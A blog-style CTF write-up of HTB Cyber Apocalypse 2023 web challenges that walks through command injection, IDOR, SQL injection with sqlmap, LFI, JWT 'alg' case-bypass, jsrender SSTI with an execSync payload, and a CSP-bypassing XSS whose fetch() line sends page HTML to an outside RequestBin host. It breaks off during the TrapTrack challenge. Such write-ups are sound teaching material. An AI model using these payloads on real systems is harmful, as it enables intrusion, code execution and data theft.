








## Introduction
Welcome to my blog post about the web challenges in the HTB Cyber Apocalypse 2023 competition! For those who may not be familiar, HTB (Hack The Box) is a platform that provides a range of cybersecurity challenges for users to test and improve their skills. Cyber Apocalypse 2023 was a massive virtual event that took place in February 2023, where thousands of participants from all over the world competed in a range of challenges, including web, crypto, reverse engineering, and more.

We were able to reach 29th place and solve 60/74 challenges. Particularly for web challenges, we got 8/9 (the one we didn't solve was Unearthly Shop).


In this blog post, I will focus specifically on the web challenges in the Cyber Apocalypse 2023 competition. I will provide a detailed analysis of each challenge, along with my thought process and the techniques I used to solve them. Whether you're an aspiring cybersecurity professional or a seasoned veteran, I hope you find my write-ups informative and helpful!

## Gunhead (very easy)
### Challenge
**Given file:**: [Get it here](https://github.com/hdthinh1012/htb-cyber-apocalypse-2023/blob/main/web_gunhead.zip)

**Description**: During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

### Solution
Click the URL of the generated challenge server, we are greeted with the home page of the challenge - a pseudo management system page



There are 3 buttons on the right side of the info panel, we interest in the third one, which gives us the shell UI.


Type /help as instructed, the shell command returns the list of possible commands. We saw the ping command, which is familiar one for command injection challenges.


Open the website in Burp Suite monitored browsers, open the shell and type in the command `/ping 127.0.0.1`, and we see in Burp Suite HTTP history has a POST request to /api/ping




Turn to the challenge source code, at index.php, the /api/ping route is handled the method `ping` of class `ReconController` 


`ReconController.ping()` will create instance of `ReconModel` and its `getOutput()` method, which will pass the user-controlled ip parameters to the ping command but without any command injection filters, means this is an easy command injection chals




Escape the ping command with the command separator `;`, cat the flag, which is stored at /flag.txt in docker container 




## Passman (easy)
### Challenge
**Given file:** [Get it here](https://github.com/hdthinh1012/htb-cyber-apocalypse-2023/blob/main/web_passman.zip)

**Description**: Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?

### Solution
The challenge starts with a login screen.



Looking at `entrypoint.sh` in sources, it appears that an admin account is existed, but the password was random generated so we may have to find someway to get access to admin account later on to finish the challnege.


First create normal account then login. After login success, we are greeted with the dashboard home


Click on the plus button, a form to store credential for online website appears. Fill and submit the form, a new item was created.


Switch to Burp Suite HTTP History panels to look for intersting requests.

It seems that the website uses single `POST /graphql` endpoint with the JSON body contain `query` field to dictate the server response.


It's time to get back to the source for more clues. Here the `/graphql` endpoint will be handled by a `GraphQlSchema` defined in `helpers/GraphqlHelper.js`




In the `GraphQLObjectType` object `mutationType`, there is an interesting field `UpdatePassword`


The `UpdatePassword` graphql handler receive `username` and `password`, it just checks whether the user is authenticated then just ouright runs the update password to any usernames it receives without checking whether the current user is the same as user that is gonna haved his/her password changes, some resource authorization problems here.

Open BurpSuite, send the request `POST /graphql` to repeater, edit the JSON body to use UpdatePassword graphql handler. 


The admin password is updated successfully. Now login as admin.


Login successfully, retrieving flag.


The flag contents said it was IDOR vulnerabilities, which is actually a incorrect authorization related problem.

## Orbital (easy)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_orbital.zip)

**Description**: In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

### Solution
At first, we were given the login page which requires credentials. There's nothing else you can do at this point than reading given code.


Upon given the code, you can find out that there is 1 user "admin" which is initiated at the time the docker is created. We can also see that, the application only has SELECT privilege on table `orbital.users` and `orbital.communications`.

```bash
mysql -u root << EOF
CREATE DATABASE orbital;
CREATE TABLE orbital.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
CREATE TABLE orbital.communication (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    source varchar(255) NOT NULL,
    destination varchar(255) NOT NULL,
    name varchar(255) NOT NULL,
    downloadable varchar(255) NOT NULL
);
INSERT INTO orbital.users (username, password) VALUES ('admin', '$(genPass)');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Titan', 'Arcturus', 'Ice World Calling Red Giant', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Andromeda', 'Vega', 'Spiral Arm Salutations', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Proxima Centauri', 'Trappist-1', 'Lone Star Linkup', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('TRAPPIST-1h', 'Kepler-438b', 'Small World Symposium', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Winky', 'Boop', 'Jelly World Japes', 'communication.mp3');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT ON orbital.users TO 'user'@'localhost';
GRANT SELECT ON orbital.communication TO 'user'@'localhost';
FLUSH PRIVILEGES;
EOF
```

Now let's move on with the application. At first glance at source code, we can see it is vulnerable to Local File Inclusion attack at this endpoint `blueprints/routes.py`.

```python
from flask import Blueprint, render_template, request, session, redirect, send_file
from application.database import login, getCommunication
from application.util import response, isAuthenticated

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def signIn():
    return render_template('login.html')

@web.route('/logout')
def logout():
    session['auth'] = None
    return redirect('/')

@web.route('/home')
@isAuthenticated
def home():
    allCommunication = getCommunication()
    return render_template('home.html', allCommunication=allCommunication)

@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login(username, password)
    
    if user:
        session['auth'] = user
        return response('Success'), 200
        
    return response('Invalid credentials!'), 403

@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

Here we can see when we call `/api/export` with POST method it will use body parameter `name` to get the files. We can exploit this to get the flag using something like `name=../../../../flag.txt`. But to use this endpoint, we must be authenticated, at the context of this challenge only "admin" user can be authenticated.

Looking at how authentication works, I found out a place that is vulnerable to SQL Injection. However keep in mind that we are only granted access to SELECT on table `users` and `communications`. I decided to use `sqlmap` to save the what're left of my brain cells.

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

I decided to use `Burpsuite` to capture to login request, modified the field `username` with value `*` and saved it for the usage of `sqlmap`.


I saved it as `req.txt`. Since the database and the table was already known the command I used was: 

```bash
sqlmap -r req.txt --level=5 --risk=3 --technique=T -o --ignore-code 401 -D orbital -T users --dump
```


Nice but we only got the hash. Initially, we was trying to use `hashcat` but since this is HackTheBox, the challenge may use well-known hash so I throw it on the internet and Voila! The credential is `admin:ichliebedich`, login and use LFI attack the get flag.


Flag: `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`


## Didactic Octo Paddles (medium)
### Challenge
**Given File**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_didactic_octo_paddle.zip)

**Description**: You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

### Solution
This time it gives us a login panel like the last time. Except this time it also has register function. Let's look at the main routes in the source code.

`challenge/routes/index.js`
```js
module.exports = (db) => {
    const bcrypt = require("bcryptjs");
    const router = require("express").Router();
    const jwt = require("jsonwebtoken");
    const jsrender = require("jsrender");
    const AuthMiddleware = require("../middleware/AuthMiddleware");
    const AdminMiddleware = require("../middleware/AdminMiddleware");
    const { tokenKey, getUserId } = require("../utils/authorization");

    const response = (data) => ({ message: data });

    router.get("/", AuthMiddleware, async (req, res) => {
        try {
            const products = await db.Products.findAll();
            res.render("index", { products: products });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });

    ........

    router.post("/register", async (req, res) => {
        try {
            const username = req.body.username;
            const password = req.body.password;

            if (!username || !password) {
                return res
                    .status(400)
                    .send(response("Username and password are required"));
            }

            const existingUser = await db.Users.findOne({
                where: { username: username },
            });
            if (existingUser) {
                return res
                    .status(400)
                    .send(response("Username already exists"));
            }

            await db.Users.create({
                username: username,
                password: bcrypt.hashSync(password),
            }).then(() => {
                res.send(response("User registered succesfully"));
            });
        } catch (error) {
            console.error(error);
            res.status(500).send({
                error: "Something went wrong!",
            });
        }
    });

    ........

    router.post("/login", async (req, res) => {
        try {
            const username = req.body.username;
            const password = req.body.password;

            if (!username || !password) {
                return res
                    .status(400)
                    .send(response("Username and password are required"));
            }

            const user = await db.Users.findOne({
                where: { username: username },
            });
            if (!user) {
                return res
                    .status(400)
                    .send(response("Invalid username or password"));
            }

            const validPassword = bcrypt.compareSync(password, user.password);
            if (!validPassword) {
                return res
                    .status(400)
                    .send(response("Invalid username or password"));
            }

            const token = jwt.sign({ id: user.id }, tokenKey, {
                expiresIn: "1h",
            });

            res.cookie("session", token);

            return res.status(200).send(response("Logged in successfully"));
        } catch (error) {
            console.error(error);
            res.status(500).send({
                error: "Something went wrong!",
            });
        }
    });

    ........

    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });

    router.get("/logout", async (req, res) => {
        res.clearCookie("session");
        return res.redirect("/");
    });

    return router;
};
```
Okay, so it has some basic authentication funtions like `register`, `login` and `logout`; in addition to that we also has 2 authorization middlewares `AdminMiddleware` and `AuthMiddleware`. And they all use [`Json Web Token (JWT)`](https://jwt.io/).

```js
router.get("/admin", AdminMiddleware, async (req, res) => {
    try {
        const users = await db.Users.findAll();
        const usernames = users.map((user) => user.username);

        // This pepega jsrender things
        res.render("admin", {
            users: jsrender.templates(`${usernames}`).render(),
        });
    } catch (error) {
        console.error(error);
        res.status(500).send("Something went wrong!");
    }
});

router.get("/logout", async (req, res) => {
    res.clearCookie("session");
    return res.redirect("/");
});

return router;
```

What really stands out of them all is at the `/admin` endpoint which allows us to inject something in the template. But first, we need to bypass the `AuthMiddleware`. Looking what it does, we find something really interesting.


```js
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};
```

Do you see something fun here ? It checks for the header algorith field. If it is `none`, it makes us login again. And if it is `HS256`, which basically the same algorithm it uses to authenticate, the app verifies using the random generated key. Or "else" it verifies with no key at all. This is fun because only with algorithm `none`, the function `verify` would work.

I was banging my head for a while, I realised that it doesn't check for `NoNe`, `NonE` but it is still able to decoded and verified. That lead us to craft a  JWT to pass to the `session` cookie for admin previlege. I crafted the JWT manually 😵‍💫.

```
eyJhbGciOiJOb05lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5NTk0OTY1LCJleHAiOjI2Nzk1OTg1NjV9.
{
  "alg": "None",
  "typ": "JWT"
}
{
  "id": 1,
  "iat": 1679594965,
  "exp": 2679598565
}
```

I modified the algorithm to `None`, "id" to `1` as 1 is the id of "admin" and set the expiration time to oblivion so I can take my time to get the flag.


For the flag, look again at the routes' functions, we can get the flag through [SSTI on jsrender](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs). To do so the payload must be one of the usernames registered. Only thing we have to do now is to register a new account with the payload for the username.

`{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}`


Flag: `HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`

## SpyBug (medium)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_spybug.zip)

**Description**: As Pandora made her way through the ancient tombs, she received a message from her contact in the Intergalactic Ministry of Spies. They had intercepted a communication from a rival treasure hunter who was working for the alien species. The message contained information about a digital portal that leads to a software used for intercepting audio from the Ministry's communication channels. Can you hack into the portal and take down the aliens counter-spying operation?

### Solution
Right, another login panel with no reigster. But wait what's that ? Look at the source code closely, we will have 2 main routes: `routes/agents` and `routes/main`.

```js
// agents.js
const fs = require("fs");
const path = require("path");
const { v4: uuidv4 } = require("uuid");

const express = require("express");
const router = express.Router();

const multer = require("multer");

const {
  registerAgent,
  updateAgentDetails,
  createRecording,
} = require("./../utils/database");

const authAgent = require("../middleware/authagent");

const storage = multer.diskStorage({
  filename: (req, file, cb) => {
    cb(null, uuidv4());
  },
  destination: (req, file, cb) => {
    cb(null, "./uploads");
  },
});

const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});

router.get("/agents/register", async (req, res) => {
  res.status(200).json(await registerAgent());
});

router.get("/agents/check/:identifier/:token", authAgent, (req, res) => {
  res.sendStatus(200);
});

router.post(
  "/agents/details/:identifier/:token",
  authAgent,
  async (req, res) => {
    const { hostname, platform, arch } = req.body;
    if (!hostname || !platform || !arch) return res.sendStatus(400);
    await updateAgentDetails(req.params.identifier, hostname, platform, arch);
    res.sendStatus(200);
  }
);

router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
  }
);

module.exports = router;


// panel.js
const express = require("express");
const router = express.Router();

const {
  checkUserLogin,
  getAgents,
  getRecordings,
} = require("./../utils/database");

const authUser = require("../middleware/authuser");

router.get("/panel", authUser, async (req, res) => {
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? process.env.FLAG
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
});

router.get("/panel/logout", authUser, (req, res) => {
  req.session.destroy();
  res.redirect("/panel/login");
});

router.get("/panel/login", (req, res) => {
  res.render("login");
});

router.post("/panel/login", async (req, res) => {
  let username = req.body.username;
  let password = req.body.password;

  if (!(username && password)) return res.sendStatus(400);
  if (!(await checkUserLogin(username, password)))
    return res.redirect("/panel/login");

  req.session.loggedin = true;
  req.session.username = username;

  res.redirect("/panel");
});

module.exports = router;
```

Let's summarize what they do.

`routes/agent.js` has register function which returns an id and a token that we can use to upload a file. And we can only upload a file with the header which is somewhat similar to `WAV` file. We can also modify `hostname`, `arch` and `platform`.

`routes/panel.js` which only accepts credential of `admin`. If the provided credential is valid, the main panel will render with the recordings that agents provide.

Let's keep in mind that there is a bot being generated at every 60 seconds. This bot will login to the panel and review all panel at a context of a browser. This is no doubt an Client-Side challenge.

```js
// index.js
const { visitPanel } = require("./utils/adminbot");
............
createAdmin();
setInterval(visitPanel, 60000);


// utils/adminbot.js
require("dotenv").config();

const puppeteer = require("puppeteer");

const browserOptions = {
  headless: true,
  executablePath: "/usr/bin/chromium-browser",
  args: [
    "--no-sandbox",
    "--disable-background-networking",
    "--disable-default-apps",
    "--disable-extensions",
    "--disable-gpu",
    "--disable-sync",
    "--disable-translate",
    "--hide-scrollbars",
    "--metrics-recording-only",
    "--mute-audio",
    "--no-first-run",
    "--safebrowsing-disable-auto-update",
    "--js-flags=--noexpose_wasm,--jitless",
  ],
};

exports.visitPanel = async () => {
  try {
    const browser = await puppeteer.launch(browserOptions);
    let context = await browser.createIncognitoBrowserContext();
    let page = await context.newPage();

    await page.goto("http://0.0.0.0:" + process.env.API_PORT, {
      waitUntil: "networkidle2",
      timeout: 5000,
    });

    await page.type("#username", "admin");
    await page.type("#password", process.env.ADMIN_SECRET);
    await page.click("#loginButton");

    await page.waitForTimeout(5000);
    await browser.close();
  } catch (e) {
    console.log(e);
  }
};
```

Well since I really wanted to know how the recordings being rendered. I will create a Docker. For those who are new to CTFs, Docker is a good way to debug what really happens behind the curtain.

For the purpose of testing I will modify `./build-docker.sh`  to

```bash
#!/bin/bash
docker stop web_spybug
docker rm web_spybug
docker rmi $(docker images -f dangling=true -q)
docker rmi $(docker images -q web_spybug)
docker build --tag=web_spybug .
docker run -p 1337:1337 -e API_PORT=1337 -e FLAG="HTB{f4k3_fl4g_f0r_t3st1ng}" -e SESSION_SECRET=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1) -e ADMIN_SECRET="admin" web_spybug 
```

I changed the admin password from randomly generated 32 characters string to `admin`. Let's build and run the docker using command
`./build-docker.sh`

While waiting our docker finishes building and runs. Let's look at how are we able to perform such Client-Side XSS attack. Let's look at the template `views/panel.pug`, we will find 2 places that we can place our payload.
```pug
if agents.length > 0
    table.w-100
        thead
            tr
            th ID
            th Hostname
            th Platform
            th Arch
        tbody
            each agent in agents
                tr
                    td= agent.identifier
                    td !{agent.hostname}
                    td !{agent.platform}
                    td !{agent.arch}
```

```pug
tbody
    each recording in recordings
        tr
            td= recording.agentId
            td
                audio(controls='')
                    source(src=recording.filepath)
```

The first flashes through my mind is `!{agent.hostname}`, `!{agent.platform}` and `!{agent.arch}`. Upon reading the `pug/jade` document


Aaaaaah, so no escape then, so we just need to fix the `hostname` or `platform` or `arch` to `<script>(evil xss)</script>` right ? Unfortunately, it won't work. Let's look at the `index.js` again.

```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});
```

There is CSP rule set that only allows source from `self`. What we were trying is called `inline`. You can read the material [here](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass).

Don't worry, I said 2 things come to my mind while reading the template. The second thing is that the audio use our uploaded `WAV` file. There is a good [writeup](https://dttw.tech/posts/r1jswRaAG) in the past that can clear your mind out. This challenge is more simple. It only checks the header, not the entire file. So we can use hexedit to edit the header of the file to `WAV` header and include our xss payload. You can either use hexedit on your laptop or like me use an online hexeditor.

But doesn't it use `<audio>` tag, how can the script be executed ? You're right, we can't. However if something like `<script src="our-evil-media-file.wav"></script>` appears, it will execute our payload like a charm. Well how can we make it appear ?
Use `!{hostname}` obviously.


Okay let's go and try out our web built from the docker at `localhost:1337`. We can use `admin:admin` to login to the panel now.


You can either create a form with html to deal with the endpoints and upload file or use `Postman` to deal with it like me.

First me need to register an agent.


Use the id and token returned for uploading the file that contains the payload.


And finally, inject into html.


Spectacular !! Now we only need to modify our payload for it to get all content of the html page at send it to our self hosted server or maybe [RequestBin](https://requestbin.com). The payload I used:

```js
// change the url of the requestbin
fetch('https://ensei2x093jq8.x.pipedream.net?muneh=' + document.documentElement.innerHTML)
```

Repeat all the steps above against challenge server. We will see the flag in the RequestBin we created.


Flag: `HTB{p01yg10t5_4nd_35p10n4g3}`

## TrapTrack (hard)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_traptrack.zip)

**Description**: The aliens have prepared several trap websites to spread their propaganda campaigns on the internet. Our intergalactic forensics team has recovered an artifact of their health check portal that keeps track of their trap websites. Can you take a look and see if you can infiltrate their system?

### Solution
Right ... Another login panel, excepts, now the credential is harcoded in to the source code ε-(´・｀) ﾌ




Use that cred and login to panel. Here at the panel, we see some kind of URL health checking going on.


Let's try to put some URL in. How about our little RequestBin.


Result:


